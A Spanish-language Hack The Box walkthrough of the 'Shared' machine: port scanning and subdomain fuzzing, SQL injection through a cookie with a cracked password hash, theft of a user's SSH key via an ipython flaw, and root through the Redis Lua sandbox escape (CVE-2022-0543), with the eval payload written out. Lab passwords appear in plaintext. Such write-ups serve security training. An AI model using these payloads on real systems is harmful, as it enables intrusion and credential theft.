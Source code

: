 ```yaml
---
layout:   post
title:    "Write Up Shared. "
subtitle: "Starting-Point"
category:   HTB
tags:      [Medium,Linux,SQLi,Burpsuite,Hashes,RCE,SSH,Write-Up-Machine,Starting-Point,OSCP] 
---
```

![list](/assets/img/shared/shared.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, 

utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.172 -oA allports -Pn
```

![list](/assets/img/shared/A-2022-11-22-12-00-17.png){:.lead width="800" height="100" loading="lazy"}


El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,80,443 -sV -sC 10.10.11.172 -oN target
```

![list](/assets/img/shared/A-2022-11-22-12-01-25.png){:.lead width="800" height="100" loading="lazy"}


El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

***

## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros tambien ispeccionamos la web ademas de las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.

Ademas de haver encontrado en el escaneo de Nmap el nombre de dominio shared.htb que lo meteremos en el /etc/host y procederemos a fuzzear  ademas tambien nos dice que es un gestor de contenido  prestashop.

Husemando la pagina tambien azoma un subdominio checkout.shared.htb que tambien nos aparece a la hora de fuzzear.



![list](/assets/img/faculty/Kali-2022-09-06-23-40-34.png){:.lead width="800" height="100" loading="lazy"}
Ingresamos el dominio al /etc/hosts. 
{:.note}

Fuzzeamos la web con gobuster o dirbuster.

```bash
dirsearch -u https://shared.htb
```


```bash
wfuzz -c -f subdomains.txt -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://shared.htb/" -H "Host: FUZZ.shared.htb"
```

![list](/assets/img/shared/A-2022-11-22-12-14-16.png){:.lead width="800" height="100" loading="lazy"}

Despues de provar multiples cosas observamos que tenemos dos cookies una de prestashob y otra custom card depues de juagar con la de custon card notamos que es vulnerable a sql injection haci que en la web mismo probamos las tipicas querys para obtener informacion.

![list](/assets/img/shared/A-2022-11-22-12-23-09.png){:.lead width="800" height="100" loading="lazy"}

Obtenemos el nombre de la base de datos que es `checkout`. 
{:.note}

Para mas comodidad nos abrimos el burpsuite para inteceptar y escribir las consultas mejor.

![list](/assets/img/shared/A-2022-11-22-12-33-19.png){:.lead width="800" height="100" loading="lazy"}

Obtenemos el nombre de tabla que es `user`. 
{:.note}

![list](/assets/img/shared/A-2022-11-22-12-33-53.png){:.lead width="800" height="100" loading="lazy"}

Obtenemos el nombre de de usuario que es `james_mason`.  
{:.note}

![list](/assets/img/shared/A-2022-11-22-12-34-16.png){:.lead width="800" height="100" loading="lazy"}

Obtenemos un hash que procedemos crakear con john the ripper y que es `Soleil101`.  
{:.note}

Ya con usuario y password nos conectamos atraves de SSH y ya podemos buscar la flag de usuario no privileguiado en el escritorio del usuatio `dan_smith` por lo que deberos hacer un user-pivoting para con vertirnos en dan y poder ver la flag de user.txt.

![list](/assets/img/shared/A-2022-11-22-12-36-13.png){:.lead width="800" height="100" loading="lazy"}


***
## Explotacion

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find con el siguite comando.

```bash
find /-group developer 2>/dev/null
```
{:.note}
Nos aparece la ruta `/opt/scripts_review`, no metemos pero esta vacio pero tenemos capaciada de escritura.


Si miramos con pspy los procesos podemos ver que el uid 1001 ejecuta algunas cosas muy interesantes.


![list](/assets/img/shared/A-2022-11-22-12-44-20.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Notamos que ipython esta ejecutando un scrip asi que vuscando vulnerabilidades sobre [ipython] aparecio esta.

[ipython]:(https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x)


Siguendo la logica de la vulnerabilidad hacemos lo ismo pero en la misma ruta y en ver de inprimir algo nos vamos a copiar la `id_rsa` de usuario dan_smith en la ruta `/dev/shm/key`.

![list](/assets/img/shared/Captura%20de%20pantalla%20(280).png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Nos la vamos a copiar en la maquina atacate con el nombre de `ir_rsa` y le vamos da dar permiso `chmod 600 id_rsa` y nos vamos a conectar por ssh como `ssh -i dam_smith@10.10.11.191`.

![list](/assets/img/shared/A-2022-11-22-13-02-05.png){:.lead width="800" height="100" loading="lazy"}

Como el usuario `dan_smith` ya podemos ver la flag de bajos privilegios.

![list](/assets/img/shared/A-2022-11-22-13-03-43.png){:.lead width="800" height="100" loading="lazy"}


Podemos ver que tenemos el grupo `sysadmin`, también que con ese grupo existe un binario.

```bash
find / -group sysadmin 2>/dev/null
```

esta ejecutando un binario `/usr/local/bin/redis_connector_dev` que ejecutarlo vemos que se autentica a redis por lo que debe tener una contraseña, por lo que nos lo tranferimos a la maquina atacante y lo ejecutamos pero nos ponemos con netcat a la ecucaha de la siguiente manera `nc -lvnp 6379` y nos dara la contraseña `F2WHqJUz2WEz=Gqq`.


Nos conectamos con [redis-cli], buscando un poco logramos encontrar una vulnerabilidad que si la explotamos conseguimos ejecutar comandos, hacemos una reverse shell y somos root.


```bash
redis_cli
```
El lo suguiente ponemos `AUTH F2WHqJUz2WEz=Gqq`.


Nos creamos un archivo sh que ejcute una reverseshell.  

![list](/assets/img/shared/Kali-2022-09-07-13-06-11.png){:.lead width="800" height="100" loading="lazy"}

Y con lo que leimos en la vulnerabilidad ejecutamos el comando.

```shell
eval 'local l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = l(); local f = io.popen("cat /dev/shm/sh | bash"); local res = f:read("*a"); f:close(); return res' 0
```
{:.note}
Debemos ponernos a la escucha con netcat en el puerto 443.

[redis-cli]:(https://thesecmaster.com/how-to-fix-cve-2022-0543-a-critical-lua-sandbox-escape-vulnerability-in-redis/)

![list](/assets/img/shared/Kali-2022-09-07-13-07-53.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Ya podemos buscar la flag de root en su escritorio.

***

```shell
🎉 Felicitaciones ya has comprometido Shared de HackTheBox 🎉
```
{:.centered}
***